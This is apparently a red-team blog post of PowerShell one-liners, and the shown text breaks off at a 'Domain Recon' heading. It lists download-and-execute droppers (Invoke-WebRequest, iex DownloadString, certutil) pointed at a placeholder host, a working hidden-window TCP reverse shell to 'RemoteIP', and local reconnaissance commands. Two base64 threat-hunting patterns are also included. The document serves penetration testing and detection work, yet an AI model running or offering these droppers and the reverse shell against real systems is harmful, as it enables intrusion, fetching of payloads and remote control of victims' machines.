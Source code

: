 ```yaml
---
layout: post
title:  "Powershell for Red Teaming"
date:   2025-06-16 21:00:00 +1000
categories: scripts
---
```


<style>
  body { font-size: 16px; }
  body {font-family: 'Inter', sans-serif}
  h1 { font-size: 19px !important; }
  h2 { font-size: 17px !important; }
  h3 { font-size: 15px !important; }
</style>

## Red teaming powershell scripts. Droppers and more.

--- Threat Hunting Patterns ---
Base64 is deterministic. Meaning there is no randomness. So, identifying patterns is important when threat hunting and creating SIEM rules.
- SQBuAHYAbwBrAGUALQBX (Invoke-WebRequest)
- aQBlAHgAIAAoAE4AZQB3 (iex (New-Object Net.WebClient))

### Droppers
--- Unencoded Droppers ---
- ``` powershell -Command "Invoke-WebRequest -Uri 'https://google.com/safe-script.ps1' -OutFile $env:TEMP\Word.ps1; & $env:TEMP\Word.ps1" ``` (Downloads to disk)
- ``` powershell -Command "iex(New-Object Net.WebClient).DownloadString('https://google.com/safe-script.ps1')" ``` (Downloads to memory)
- ``` powershell -Command certutil -urlcache -split -f https://google.com/safe-script.ps1 payload.exe``` (LOLBAS Download)

### Reverse Shell One-Liners
--- TCP Rev Shell ---
- ``` powershell -NoP -NonI -W Hidden -Command "$c=New-Object Net.Sockets.TCPClient('RemoteIP',RemotePort);$s=$c.GetStream();[byte[]]$b=0..65535|%{0};while(($i=$s.Read($b,0,$b.Length)) -ne 0){; $d=(New-Object Text.ASCIIEncoding).GetString($b,0,$i);$r=(iex $d 2>&1 | Out-String);$r2=$r+'PS '+(pwd).Path+'> ';$sb=([text.encoding]::ASCII).GetBytes($r2);$s.Write($sb,0,$sb.Length)}" ```

### Recon Commands
--- Local Recon ---
- ```Get-Process```
- ```Get-LocalUser```
- ```Get-NetIPConfiguration```
- ```Get-NetTCPConnection | Where-Object {$_.State -eq "Listen"}```
- ```whoami /user```
- ```Get-LocalGroupMember -Group "Administrators"```
- ```Get-LocalGroup | ForEach-Object { Get-LocalGroupMember -Group $_.Name }```
- ```Get-SmbShare```
- ```net view \\hostname```
- ```Get-Service | Where-Object {$_.Status -eq 'Running'}``` 
--- Domain Recon ---